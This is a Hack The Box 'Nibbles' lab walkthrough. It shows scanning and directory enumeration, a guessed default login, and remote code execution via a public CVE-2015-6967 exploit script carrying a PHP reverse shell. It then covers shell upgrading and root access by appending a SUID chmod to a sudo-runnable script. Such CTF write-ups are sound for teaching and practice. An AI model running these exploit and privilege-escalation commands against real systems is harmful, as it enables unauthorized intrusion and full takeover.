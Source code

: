 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T18:22:03-05:00
draft: false
---
```


#### Initial nmap
```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```

#### Port 80 - 

It looks like a static webpage

{{< image src="/static/static_page.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

{{< image src="/static/gobuster_1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

{{< image src="/static/view_source.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

{{< image src="/static/nibbles_blog.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Using gobuster we can look for subdirectories inside /nibbleblog/ 

{{< image src="/static/gobuster_2.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

{{< image src="/static/nibbles_version.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.

{{< image src="/static/php_revshell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

{{< image src="/static/nc_shell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 

{{< image src="/static/shell_upgrade1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

{{< image src="/static/shell_upgrade2.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

{{< image src="/static/sudo_privs.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

{{< image src="/static/suid_abuse.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


